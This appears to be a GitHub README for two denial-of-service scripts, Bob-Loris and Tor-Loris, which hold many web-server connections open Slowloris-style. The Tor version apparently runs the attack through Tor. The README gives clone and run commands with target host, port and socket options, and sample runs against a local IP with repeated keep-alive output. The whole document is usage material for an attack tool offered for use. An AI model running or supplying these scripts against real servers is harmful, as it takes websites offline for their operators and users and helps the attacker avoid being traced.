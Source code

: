 # Bob-Loris 

**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

# Tor-Loris 
 
**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Tor-loris.py
 
        $ ./Tor-loris.py -H <host> -P <port> -M <max-sockets Default=150>

**Example**
          
	$ ./Tor-loris.py -H 192.168.1.160 -P 80 -M 150 
	         _______           _            _     
            |__   __|         | |          (_)    
               | | ___  _ __  | | ___  _ __ _ ___ 
               | |/ _ \| '__| | |/ _ \| '__| / __|
               | | (_) | |    | | (_) | |  | \__ \
               |_|\___/|_|    |_|\___/|_|  |_|___/
                                                                                                   
          
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	 



